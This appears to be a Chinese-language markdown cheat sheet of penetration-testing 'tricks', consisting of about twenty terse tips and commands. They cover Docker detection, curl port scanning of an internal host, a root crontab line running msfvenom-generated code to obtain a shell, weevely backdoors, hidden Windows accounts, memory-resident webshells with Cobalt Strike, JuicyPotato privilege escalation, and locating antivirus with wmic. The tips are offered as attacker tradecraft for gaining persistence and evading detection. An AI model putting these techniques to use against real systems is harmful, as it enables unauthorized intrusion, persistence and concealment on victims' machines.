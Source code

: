 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

